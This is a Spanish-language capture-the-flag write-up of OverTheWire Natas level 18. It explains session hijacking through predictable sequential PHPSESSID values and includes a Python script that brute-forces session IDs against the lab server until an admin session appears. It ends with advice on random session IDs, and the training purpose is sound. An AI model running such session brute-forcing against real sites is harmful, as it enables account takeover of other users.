


# Natas 18 – OverTheWire

La página muestra un formulario de login con campos `username` y `password`.
Si introduces credenciales incorrectas, obtienes un mensaje como:

```url
You are logged in as a regular user.
```

Pero nunca se ve la contraseña de natas19, incluso si usas el **usuario correcto**.

La pista aquí es la cookie de sesión, que cambia cada vez que nos logueamos.

## Analisis

Si inspeccionamos la cookie (DevTools → Application → Cookies), vemos algo así:

```php
PHPSESSID = 1234
```



Cada vez que enviamos el formulario, este número cambia.
Parece que el servidor asigna un **ID de sesión numérico y secuencial.**

Eso es una **bandera roja**: si los IDs de sesión son predecibles, podemos fuerza bruta (bruteforce) todas las posibles sesiones hasta encontrar la del administrador.

### Concepto: Session Hijacking

En PHP, las sesiones guardan información temporal del usuario en el servidor, y se identifican con una cookie llamada `PHPSESSID`.
Si el servidor asigna IDs como 1, 2, 3, ... en lugar de valores aleatorios, un atacante puede probar muchos IDs hasta encontrar uno válido que pertenezca a otro usuario (por ejemplo, un administrador).

Escribimos un script en Python para iterar sobre posibles IDs de sesión y revisar la respuesta:

```python
import requests, time
from pwn import log

url = "http://natas18.natas.labs.overthewire.org"
auth = ('natas18', '<ContraseñaNatas18>')

p1 = log.progress("Fuerza bruta")
p1.status("Iniciando ataque")
time.sleep(2)


for i in range(1, 641): 
    cookies = {'PHPSESSID': str(i)}
    r = requests.get(url, auth=auth, cookies=cookies)
    p1.status(cookies)
    if "You are an admin" in r.text:
        print(f"[+] Admin Encontrado con ID = {i}")
        print(r.text)
        break
```

La idea: probamos todas las posibles sesiones hasta que el servidor nos diga que somos admin.

Y con esto obtenemos el contenido de el apartado de administrador.



### Concepto: ID de sesión predecible

- Los IDs de sesión deben ser **impredecibles y aleatorios**.
- Si un atacante puede adivinar o probar IDs válidos, puede **suplantar la sesión de otros usuarios.**
- Este tipo de vulnerabilidad es conocida como **Session Hijacking** o **Session Prediction**.

## Conclusion

- Las cookies de sesión son la base de la autenticación web.
- Si los IDs de sesión son secuenciales o pequeños, se pueden descubrir fácilmente.
- Siempre usar generadores criptográficamente seguros (`session_id()` en PHP lo hace por defecto, pero este reto usa una implementación manual insegura).
